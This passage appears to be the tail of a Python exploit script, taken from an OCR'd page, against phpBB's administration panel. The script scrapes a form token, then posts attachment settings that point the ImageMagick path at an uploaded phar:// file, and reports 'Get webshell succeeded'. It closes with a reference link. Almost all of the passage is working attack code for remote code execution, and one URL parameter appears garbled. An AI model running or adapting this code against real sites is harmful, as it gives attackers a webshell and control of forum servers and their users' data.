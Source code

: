             exit('Database download failed')
        print('Calculate the name of the phar')

        name = "{plupload_salt}_{md5name}zip.part".format(plupload_salt=plupload_salt, md5name=md5(upfilename))

        rs = r.get(target + '/adm/index.php?i=acp_attachmenpartts&mode=attach&sid=' + sid)
        html = rs.text
        soup = BeautifulSoup(html, "html.parser")
        input = soup.find('input', attrs={'name': 'form_token'})
        form_token = input['value']
        print("Get form_token from Attachment settings：{form_token}".format(form_token=form_token))

        data = "config%5Ballow_attachments%5D=1&config%5Ballow_pm_attach%5D=0&config%5Bupload_path%5D=files&config%5Bdisplay_order%5D=0&config%5Battachment_quota%5D=50&attachment_quota=mb&config%5Bmax_filesize%5D=256&max_filesize=kb&config%5Bmax_filesize_pm%5D=256&max_filesize_pm=kb&config%5Bmax_attachments%5D=3&config%5Bmax_attachments_pm%5D=1&config%5Bsecure_downloads%5D=0&config%5Bsecure_allow_deny%5D=1&config%5Bsecure_allow_empty_referer%5D=1&config%5Bcheck_attachment_content%5D=1&config%5Bimg_display_inlined%5D=1&config%5Bimg_create_thumbnail%5D=0&config%5Bimg_max_thumb_width%5D=400&config%5Bimg_min_thumb_filesize%5D=12000&config%5Bimg_imagick%5D={upfile}&config%5Bimg_max_width%5D=0&config%5Bimg_max_height%5D=0&config%5Bimg_link_width%5D=0&config%5Bimg_link_height%5D=0&submit=Submit&ips=&ipexclude=0&creation_time=1552465991&form_token={form_token}".format(
            form_token=form_token,
            upfile='phar://../files/plupload/' + name)
        rs = r.post(target + '/adm/index.php?i=acp_attachments&mode=attach&sid=' + sid, data=data)
        print('Get webshell succeeded')

参考链接
--------

> https://xz.aliyun.com/t/8239\#toc-3
